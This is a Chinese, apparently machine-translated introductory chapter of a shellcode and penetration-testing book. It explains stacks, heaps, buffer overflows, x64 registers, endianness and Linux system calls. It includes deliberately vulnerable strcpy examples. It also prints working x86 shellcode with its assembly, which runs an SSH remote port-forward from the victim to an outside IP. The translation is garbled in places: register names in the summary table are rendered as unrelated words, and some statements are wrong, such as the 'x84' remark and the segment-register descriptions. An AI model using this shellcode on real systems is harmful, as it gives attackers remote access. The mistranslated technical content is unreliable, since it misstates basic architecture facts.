# 介绍

欢迎使用外壳代码阅读*渗透测试的第一章。术语**渗透测试**指攻击系统时不会对系统造成任何损坏。攻击背后的动机是在攻击者找到进入系统的方法之前找到系统的缺陷或漏洞。因此，为了衡量系统如何抵制暴露敏感数据，我们尝试收集尽可能多的数据，为了使用外壳代码执行渗透测试，我们必须首先了解溢出攻击。*

缓冲区溢出是最古老和最具破坏性的漏洞之一，可能会对操作系统造成严重损害，无论是远程还是本地。基本上，这是一个严重的问题，因为某些函数不知道输入数据是否适合预分配的空间。因此，如果我们添加的数据超过了分配的空间所能容纳的数据量，那么这将导致溢出。使用图中的外壳代码，我们可以更改同一应用程序的执行流。这种破坏的主要核心是外壳代码产生的有效载荷。随着各种软件的传播，即使有微软这样的强大支持，也会让你容易受到此类攻击。外壳代码正是我们希望在控制执行流之后执行的代码，我们将在后面详细讨论。

本章涵盖的主题如下：

*   什么是堆栈？
*   什么是缓冲区？
*   什么是堆栈溢出？
*   什么是堆？
*   什么是堆损坏？
*   什么是外壳代码？
*   计算机体系结构导论
*   什么是系统调用？

让我们开始吧！

# 什么是堆栈？

**堆栈**是内存中为每个正在运行的应用程序分配的空间，用于保存其中的所有变量。操作系统负责为每个正在运行的应用程序创建内存布局，每个内存布局中都有一个堆栈。堆栈还用于保存返回地址，以便代码可以返回到调用函数。

堆栈使用**最后一次输入第一次输出**（**LIFO**）来存储元素，其中有一个堆栈指针（我们将在后面讨论），它指向堆栈的顶部，还使用*推送*来存储堆栈顶部的元素和*弹出*从堆栈顶部提取元素。

让我们看看下面的例子来理解这一点：

```
#include <stdio.h>
void function1()
{
    int y = 1;
    printf("This is function1\n");
}
void function2()
{
    int z = 2;
    printf("This is function2\n");
}
int main (int argc, char **argv[])
{  
    int x = 10;
    printf("This is the main function\n");
    function1();
    printf("After calling function1\n");
    function2();
    printf("After calling function2");
    return 0;
}
```

上述代码就是这样工作的：

*   首先启动`main`函数，将变量`x`推入堆栈，打印出句子`This is the main function`，如下图：


*   `main`函数将调用`function1`，在前进到`function1`之前，`printf("After calling function1\n")`的地址将保存到堆栈中，以便继续执行流程。在栈中推变量`y`完成`function1`后，执行`printf("This is function1\n")`，如下图：


*   然后再次返回`main`函数执行`printf("After calling function1\n")`，并在堆栈中推送`printf("After calling function2")`的地址，如图所示：



*   现在控件向前执行`function2`，将变量`z`推入堆栈，然后执行`printf("This is function2\n")`，如下图所示：



*   然后，返回`main`函数执行`printf("After calling function2")`并退出。

# 什么是缓冲区？

**缓冲区**是内存的一个临时部分，用于保存数据，如变量。缓冲区在声明为全局之前，只能在其函数内部访问或读取；当一个函数结束时，缓冲区也随之结束；当有数据存储或检索时，所有程序都必须处理缓冲区。

让我们看一下以下代码行：

```
char buffer;
```

这段 C 代码是什么意思？它告诉计算机分配一个临时空间（缓冲区），大小为`char`，最多可容纳 1 个字节。您可以使用`sizeof`功能确认任何数据类型的大小：

```
#include <stdio.h>
#include <limits.h>
int main()
{
    printf("The size for char : %d \n", sizeof(char));
    return 0;
}
```

当然，您可以使用相同的代码来获取其他数据类型的大小，例如`int`数据类型。

# 什么是堆栈溢出？

**堆栈溢出**发生在您向缓冲区中放入的数据超过其容量时，这会导致缓冲区被填满，并用剩余的输入覆盖内存中的相邻位置。当负责复制数据的函数没有检查输入是否可以放入缓冲区时，就会发生这种情况，例如`strcpy`。我们可以使用堆栈溢出来使用外壳代码将一个代码的执行流更改为另一个代码。

以下是一个例子：

```
#include <stdio.h>
#include <string.h>
// This function will copy the user's input into buffer
void copytobuffer(char* input)
{
   char buffer[15];
   strcpy (buffer,input);
}
int main (int argc, char **argv[])
{
   copytobuffer(argv[1]);
   return 0;
}
```

该守则的运作如下：

*   在`copytobuffer`函数中，它分配了一个大小为`15`个字符的缓冲区，但该缓冲区只能容纳 14 个字符和一个以 null 结尾的字符串`\0`，表示数组结束

You don't have to end arrays with a null-terminated string; the compiler will do it for you.

*   然后有`strcpy`，它从用户那里获取输入并将其复制到分配的缓冲区中
*   在`main`函数中，调用`copytobuffer`并将`argv`参数传递给`copytobuffer`

当`main`函数调用`copytobuffer`函数时，会发生什么？

以下是这个问题的答案：

*   `main`功能的**返回地址**将被推送到内存中
*   **旧基指针**（将在下一节中解释）将保存在内存中
*   将分配一段内存作为缓冲区，大小为 15 字节或*15*8*位：



现在，我们同意这个缓冲区只需要 14 个字符，但真正的问题在`strcpy`函数内部，因为它不检查输入的大小，它只是将输入复制到分配的缓冲区中。

现在，让我们尝试编译并运行包含 14 个字符的代码：



让我们看一下堆栈：


如您所见，程序已无误退出。现在，让我们再试一次，但有 15 个字符：


现在让我们再看看堆栈：


这是堆栈溢出，分段错误表示内存中存在冲突；发生的情况是，用户的输入溢出了分配的缓冲区，从而填充了旧的基指针和**返回地址**。

A **segmentation fault** means a violation in the user space memory, and **kernel panic** means a violation in kernel-space.

# 什么是堆？

**堆**是应用程序在运行时动态分配的内存的一部分。可以使用 C 中的`malloc`或`calloc`函数分配堆。堆不同于堆栈，因为堆保留到：

*   程序退出
*   使用`free`功能将其删除

堆不同于堆栈，因为在堆中，可以分配非常大的空间，并且对分配的空间没有限制，例如在堆栈中，空间有限取决于操作系统。您也可以使用`realloc`函数调整堆的大小，但不能调整缓冲区的大小。使用堆时，必须使用`free`函数在完成后释放堆，但不能在堆栈中释放；此外，堆栈比堆快。

让我们看一下以下代码行：

```
 char* heap=malloc(15);
```

这段 C 代码是什么意思？

它告诉计算机在堆内存中分配一个大小为`15`字节的部分，并且它还应该包含 14 个字符和一个以 null 结尾的字符串`\0`。

# 什么是堆损坏？

当复制或推送到堆中的数据大于分配的空间时，会发生堆损坏。让我们看一个完整的堆示例：

```

#include <string.h>
#include <stdlib.h>
void main(int argc, char** argv)
{
  // Start allocating the heap
    char* heap=malloc(15);
  // Copy the user's input into heap
    strcpy(heap, argv[1]);
  // Free the heap section
    free(heap);
}
```

在第一行代码中，它使用`malloc`函数分配一个大小为`15`字节的堆；在第二行代码中，它使用`strcpy`函数将用户的输入复制到堆中；在第三行代码中，它使用`free`函数设置堆释放，返回到系统。

让我们编译并运行它：


现在，让我们尝试使用更大的输入使其崩溃：


此崩溃是堆损坏，导致程序终止。

# 内存布局

这是包含以下内容的程序的完整内存布局：

*   用于保存**程序代码**的`.text`部分
*   `.data`段，用于保存**初始化数据**
*   `.BSS`段，用于保存**未初始化数据**
*   **堆**部分，用于保存****动态分配的变量****
*   **堆栈**部分，用于保存非动态分配的变量，如缓冲区：



看看**堆**和**堆**是如何增长的；**堆栈**从**高内存**增长到**低内存**，而**堆**从**低内存**增长到**高内存**。

# 什么是外壳代码？

外壳代码类似于用机器语言编写的溢出攻击中使用的有效负载。因此，外壳代码用于在利用易受攻击的进程后覆盖执行流，例如使受害者的机器连接回您以生成外壳。

下一个示例是 Linux x86 SSH 远程端口转发的外壳代码，它执行`ssh -R 9999:localhost:22 192.168.0.226`命令：

```
"\x31\xc0\x50\x68\x2e\x32\x32\x36\x68\x38\x2e\x30\x30\x68\x32\x2e\x31\x36""\x66\x68\x31\x39\x89\xe6\x50\x68\x74\x3a\x32\x32\x68\x6c\x68\x6f\x73\x68""\x6c\x6f\x63\x61\x68\x39\x39\x39\x3a\x66\x68\x30\x39\x89\xe5\x50\x66\x68""\x2d\x52\x89\xe7\x50\x68\x2f\x73\x73\x68\x68\x2f\x62\x69\x6e\x68\x2f\x75""\x73\x72\x89\xe3\x50\x56\x55\x57\x53\x89\xe1\xb0\x0b\xcd\x80";
```

这是外壳代码的汇编语言：

```
xor    %eax,%eax
push   %eax
pushl  $0x3632322e
pushl  $0x30302e38
pushl  $0x36312e32
pushw  $0x3931
movl   %esp,%esi
push   %eax
push   $0x32323a74
push   $0x736f686c
push   $0x61636f6c
push   $0x3a393939
pushw  $0x3930
movl   %esp,%ebp
push   %eax
pushw  $0x522d
movl   %esp,%edi
push   %eax
push   $0x6873732f
push   $0x6e69622f
push   $0x7273752f
movl   %esp,%ebx
push   %eax
push   %esi
push   %ebp
push   %edi
push   %ebx
movl   %esp,%ecx
mov    $0xb,%al
int    $0x80
```

# 计算机体系结构

让我们了解一下计算机体系结构（英特尔 x64）中的一些概念。计算机的主要部件如下图所示：



让我们在 CPU 内部再深入一点。CPU 由三部分组成：

*   **算术逻辑单元**（**ALU**）：该部分负责执行加法、减法等算术运算和加法、异或等逻辑运算
*   **寄存器**：这是我们在本书中真正关心的，它们是 CPU 的超高速内存，我们将在下一节讨论
*   **控制单元**（**CU**）：该部分负责 ALU 与寄存器之间以及 CPU 本身与其他设备之间的通信

# 登记册

如前所述，寄存器就像 CPU 在处理过程中存储或检索数据的超高速内存，它们分为以下几个部分。

# 通用寄存器

英特尔 x64 处理器中有 16 个通用寄存器：

*   累加器寄存器（**RAX**用于算术运算-**RAX**持有**64**位，**EAX**持有**32**位，**AX**持有**16**位，**AH**持有**8**位，**位**保存**8**位：



*   基址寄存器（**RBX**用作指向数据的指针-**RBX**持有**64**位，**EBX**持有**32**位，**BX**持有**16**位，**BH**持有**8**位，**BL**位保存**8**位：



*   计数器寄存器（**RCX**用于循环和移位操作—**RCX**持有**64**位，**ECX**持有**32**位，**CX**持有**16**位，**CH**持有**8**位，**CL】位**保存**8**位：



*   数据寄存器（**RDX**用作数据保持器，在算术运算中—**RDX**保持**64**位，**EDX**保持**32**位，**DX**保持**16**位，**DH**保持**8**位，以及**DL**持有**8**位：



*   源索引寄存器（**RSI**用作指向源的指针-**RSI**持有**64**位，**ESI**持有**32**位，**DI**持有**16**位，**SIL**持有**8**位：


*   目的地索引寄存器（**RDI**用作指向目的地的指针-**RDI**持有**64**位，**EDI**持有**32**位，**DI**持有**16**位，**DIL**持有**8**位：


**RSI** and **RDI** are both used in stream operations and string manipulation.

*   堆栈指针寄存器（**R****SP**用作指向堆栈顶部的指针—**RSP**持有**64**位，**ESP**持有**32**位，**SP**持有**16**位，**SPL**持有**位 8**位：


*   基址指针寄存器（**RBP**用作指向堆栈基址的指针-**RBP**持有**64**位，**EBP**持有**32**位，**BP**持有**16**位，**BPL**持有**8**位：



*   寄存器 R8、R9、R10、R11、R12、R13、R14 和 R15 没有特定的操作，但它们与以前的寄存器没有相同的架构，例如**高**（**H**值或**低**（**L**值。但是，它们可以用作**双字**的**D**、**W**表示**字**、或**B**表示**字节**。我们来看看**R8**的例子：


这里，**R8**持有**64**位，**R8D**持有**32**位，**R8W**持有**16**位，**R8B**持有**8**位。

R8 到 R15 仅存在于 Intel x64 中，而不存在于 x84 中。

# 指令指针

指令指针寄存器或 RIP 用于保存下一条指令。

让我们先看看下面的示例：

```
#include <stdio.h>
void printsomething()
{
    printf("Print something\n");
}
int main ()
{
    printsomething();

    printf("This is after print something function\n");
    return 0;
}
```

首先要执行的是`main`函数，然后它将调用`printsomething`函数。但是在调用`printsomething`函数之前，程序需要准确地知道在执行`printsomething`函数之后的下一个操作是什么。因此，在调用`printsomething`之前，下一条指令即`printf("This is after print something function\n")`将其位置推入**RIP**中，依此类推：



这里，**RIP**持有**64**位，**EIP**持有**32**位，**IP**持有**16**位。

下表汇总了所有通用寄存器：

| **64 位寄存器** | **32 位寄存器** | **16 位寄存器** | **8 位寄存器** |
| 雷克斯 | EAX | 斧头 | 啊，艾尔 |
| RBX | EBX | BX | 波黑 |
| RCX | ECX | CX | CH，CL |
| 黑索今 | EDX | DX | DH，DL |
| RSI | ESI | 硅 | SIL |
| RDI | 电子数据交换 | DI | 迪尔 |
| RSP | ESP | 服务提供商 | SPL |
| 限制性商业惯例 | EBP | 英国石油公司 | BPL |
| R8 | R8D | R8W | R8B |
| R9 | R9D | R9W | R9B |
| R10 | R10D | R10W | R10B |
| R11 | R11D | R11W | R11B |
| R12 | R12D | R12W | R12B |
| R13 | R13D | R13W | R13B |
| R14 | R14D | R14W | R14B |
| R15 | R15D | R15W | R15B |

# 标志寄存器

这些是计算机用来控制执行流的寄存器。例如，assembly 中的 JMP 操作将基于标志寄存器的值来执行，例如**跳转如果为零**（**JZ**）操作，这意味着如果零标志包含 1，则执行流将更改为另一个流。我们将讨论最常见的标志：


*   如果存在进位加法或进位减法，则在算术运算中设置**c****进位标志**（**CF**）
*   如果设置的位数为偶数，则设置**奇偶校验标志**（**PF**）
*   如果存在二进制码十进制进位，则在算术运算中设置**调整标志**（**AF**）
*   如果结果为零，则设置**零标志**（**ZF**）
*   如果最高有效位为 1（数字为负数），则设置**符号标志**（**SF**）
*   如果运算结果太大而无法放入寄存器，则在算术运算中设置**溢出标志**（的

 **# 段寄存器

有六个段寄存器：


*   **c****ode 段****CS**指向**栈**中**码段**的起始地址
*   **栈段****SS**指向**栈**的起始地址
*   **数据段****DS**指向**栈**中**数据段**的起始地址
*   **额外段****ES**指向**额外数据**
*   **F 段****FS**指向**额外数据**
*   **G 段****GS**指向**额外数据**

FS 中的 F 表示 ES 中 E 之后的 F；GS 中的 G 表示 F 之后的 G。

# Endianness

Endianness 描述在内存或寄存器中分配字节的顺序，有以下两种类型：

*   **Big endian**表示从左到右分配字节。让我们看看像*shell*这样的单词（十六进制**73****68****65**6c****6c**将如何分配到内存中：**



它被按下，因为你可以从左到右阅读它。

*   **Little endian**表示从右向左分配字节。让我们看一下前面的示例，其中包含 little endian：



如你所见，它将*llehs*向后推，最重要的是英特尔处理器是小端。

# 系统调用

Linux 内存中（RAM）有两个空间：**用户空间**和**内核空间**。内核空间负责运行对内存完全访问的内核代码和系统进程，而用户空间负责运行对内存访问受限的用户进程和应用程序，这种分离是为了保护内核空间。

当用户想要执行代码（在用户空间中）时，用户空间使用**系统调用**，也称为**系统调用**，通过 glibc 等库向内核空间发送请求，然后内核空间使用**fork exec**技术代表用户空间执行。

# 什么是系统调用？

系统调用类似于用户空间用来请求内核代表用户空间执行的请求。例如，如果一个代码想要打开一个文件，那么**用户空间**向**内核**发送打开系统调用以代表**用户空间**打开该文件，或者当一个 C 代码包含`printf`函数时，则**用户空间**向**内核发送写系统调用**：



fork-exec 技术是 Linux 通过使用 fork-syscall 分叉（复制）位于内存中的父级资源，然后使用 exec-syscall 运行可执行代码来运行进程或应用程序的方法。

系统调用类似于内核 API，或者您将如何与内核本身对话，告诉它为您做些什么。

用户空间是一个隔离的环境或沙箱，用于保护内核空间及其资源。

那么，我们如何获得 x64 内核系统调用的完整列表呢？其实很简单，所有的系统调用都位于这个文件中：`/usr/include/x86_64-linux-gnu/asm/unistd_64.h`：

```
cat /usr/include/x86_64-linux-gnu/asm/unistd_64.h 
```

以下屏幕截图显示了前面命令的输出：


这只是我的内核系统调用的一小部分。

# 总结

在本章中，我们讨论了计算机科学中的一些定义，如堆栈、缓冲区和堆，并给出了有关缓冲区溢出和堆损坏的快速提示。然后，我们继续讨论计算机体系结构中的一些定义，如寄存器，这对于调试和理解处理器内部的执行方式非常重要。最后，我们简要地讨论了系统调用，它在 Linux 上的汇编语言中也很重要（我们将在下一部分中看到），以及内核如何在 Linux 上执行代码。在这一点上，我们准备进入另一个层次，即构建一个测试溢出攻击的环境，并创建和注入外壳代码。**